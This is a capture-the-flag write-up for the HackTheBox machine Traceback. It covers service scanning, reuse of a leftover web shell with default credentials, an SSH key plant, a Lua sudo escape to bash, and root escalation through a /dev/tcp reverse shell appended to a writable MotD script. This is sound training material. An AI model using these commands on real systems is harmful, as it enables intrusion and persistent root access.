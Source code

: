 # Writeup - Traceback

## 1. Initial Scanning

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
```

Usual HTTP server and SSH server are available on recent versions.
No obvious exploits for the services are available out of the box.

A full TCP portscan (see `nmap_fulltcp`) reveals no other open ports.

## 2. Website Landing Page

The landing page show a defaced website owned by `Xh4H`, indicating that he/she left a backdoor for others to use. The source code of the page shows a comment saying

> `<!-- Some of the best web shells that you might need ;) -->`

indicating that there is a web shell left behind.

Which one in particular remains unknown at first, as there are seemingly no other documents on the web server, also no apparent directory listing.
`dirbuster` fails to find anything.

## 3. Finding the Shell

Googling `web shells` to find a couple popular reveals a [GitHub repository](https://github.com/TheBinitGhimire/Web-Shells) in the top results with the aforementioned message saying `Some of the best web shells that you might need`.
This is probably not a coincidence, therefore copying out the web shells listed in the repository into a file and requesting them at the target web site seems reasonable.

This yields `http://traceback/smevk.php` as valid address, indeed revealing a web shell. The default credentials mentioned in the GitHub repository work (`admin:admin`) and `webadmin` seems to be the username we operate as. However, its home directory doesn't contain the `user.txt` flag. On the way to the home directories, the user `sysadmin` and its respective home directory is discovered.

From here we can either place our own SSH public key in `webadmin`'s `authorized_keys` file or execute a reverse shell straight from the web shell (`netcat` is conveniently available).
SSH is convenient to use and persistent, so let's proceed with that.
Adding the key allows to log via SSH, so luckily `sshd`'s configuration doesn't prevent `webadmin`'s remote login.

## 4. Getting `sysadmin`

Instead of the `user.txt` flag, we find a `note.txt` indicating, that `webadmin` has access to an executable to "practice LUA", so probably some learning program or LUA interpreter.

`linenum` or `sudo -l` (see `linenum.log`) yields information about said command. Apparently `webadmin` is allowed to impersonate `sysadmin` when executing `/home/sysadmin/luvit`, which appears to be a LUA interpreter.

A quick lookup on how to execute system commands in LUA yields `os.execute("bash -i")`, which launches an interactive shell as user `sysadmin`, allowing a quick escape from the restricted `sudo` permission. In `sysadmin`'s home directory, the `user.txt` flag is found.

## 5. Attempting to escalate

`linenum.sh` shows `sudo 1.8` which is a couple (minor) versions behind the latest version. Besides that, no other interesting executables, etc. are found
in `linenum`'s log.

`searchsploit` yields 2 potential exploits for `sudo` on this or a later version. Both of them were unfortunately not successful.

### 5.1 pwfeedback

As the target machine neither has internet access nor a compiler installed, the files built by the exploit script have to be built manually and pushed over to the target. However, when executing the script, it doesn't seem to work. Seems like this vulnerability was introduced at a later point or doesn't apply in the installation.

### 5.2 sudo security bypass

A promising exploit using a missing UID check to impersonate `root`.
Unfortunately it doesn't work, as `webadmin` has very restricted `sudo` privileges, which don't allow leveraging this vulnerability.

## 6. Escalating to `root`

Neither `sysadmin` nor `webadmin` seem to have other hints available. In addition, no `suid` executables are available either, so there should be some sort of application or misconfigured default software, we can utilize.
`.bash_history` yields a hint to `/etc/update-motd.d`, where the initial hacker (`Xh4H`) in this scenario modified the "Message of the Day" which appears upon login.

A closer look reveals that file is actually writeable by `sysadmin` (this is usually only writeable by `root`). Inserting code here causes it to be executed along with the other MotD scripts **as root**.

Inserting a reverse shell script into one of the script inside the `/etc/update-motd.d/` directory should provide us with a root shell upon next login.
However, we should pay attention to the exact script to prevent our reverse shell command from getting a regular login process stuck. Utilizing `nohup` and `&` should do the trick.

```bash
# Insert the reverse shell into the `00-header` file
echo 'nohup /bin/bash -i >& /dev/tcp/10.10.15.18/51337 0>&1 &' >> /etc/update-motd.d/00-header
```

Then just listen on our own machine for incoming connections:

```bash
nc -v -l -p 51337 -s 10.10.15.18
```

Upon re-connecting via SSH to `webadmin`, the reverse shell is triggered.
`root`'s home directory reveals the final flag `root.txt` (just like in other HackTheBox challenges).